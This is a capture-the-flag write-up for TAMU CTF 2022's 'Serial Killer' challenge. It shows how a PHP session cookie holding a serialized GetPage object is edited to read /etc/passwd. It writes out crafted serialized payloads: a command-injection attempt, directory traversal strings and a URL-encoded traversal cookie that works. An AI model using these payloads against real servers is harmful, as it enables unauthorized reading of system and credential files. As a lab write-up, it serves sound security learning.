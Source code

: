 ﻿Serial Killer 

Tamu CTF 2022


Challenge Description:

I'm trying a new way to display files on my website. Can you try to break it for me?

Do not connect with HTTPS, make sure to connect with HTTP

Link: [http://serial.tamuctf.com](http://serial.tamuctf.com/)

Tip: The flag is located in the /etc/passwd file.

Solution:

So the page looks something like this,

![](Aspose.Words.8de23a1c-c73d-4868-acd1-d9bec2c3d94c.001.jpeg)

So, when we checked the cookies, we saw `phpsessid` cookie with encoded value. 

Phpsessid: Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30%3D

When I url decoded and base-64 decoded this string, we get the following:

Url decoded: Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30=

Base-64 decoded: O:7:"GetPage":1:{s:4:"file";s:10:"index.html";}

What we got is nothing but a serialised object. There is some block of code on the server called GetPage and it has a parameter called file that takes in a value index.html which is what we see in  our browser.

So, we are given that the flag is in `etc/passwd`. So, we can try giving `etc/passwd` in the place of `index.html` in the serialised object. So, the string looks like:

O:7:"GetPage":1:{s:4:"file";s:11:"/etc/passwd";}

We can base64 encode it and url encode it and submit in the `phpsessid` cookie, but we get an error message:

![](Aspose.Words.8de23a1c-c73d-4868-acd1-d9bec2c3d94c.002.jpeg)

O:7:"GetPage":1:{s:4:"file";s:26:"system(\'cat+/etc/passwd\');";}

The above string also gave some error.

Then we tried directory traversal and gave the following string:

O:7:"GetPage":1:{s:4:"file";s:25:"../../../../../etc/passwd";}

Surprisingly, the above string also gave an error, then tried url encoding `./../../../../etc/passwd` and giving it into the serialised form,

O:7:"GetPage":1:{s:4:"file";s:46:"%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd";}

Then base64 encoded and url encoded this and got the following:

Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6NDY6IiUyZSUyZSUyZiUyZSUyZSUyZiUyZSUyZSUyZiUyZSUyZSUyZmV0Yy9wYXNzd2QiO30%3D

Submitting this to the `phpsessid` cookie gave us the flag:

Flag:  gigem{1nt3r3sting\_LFI\_vuln}
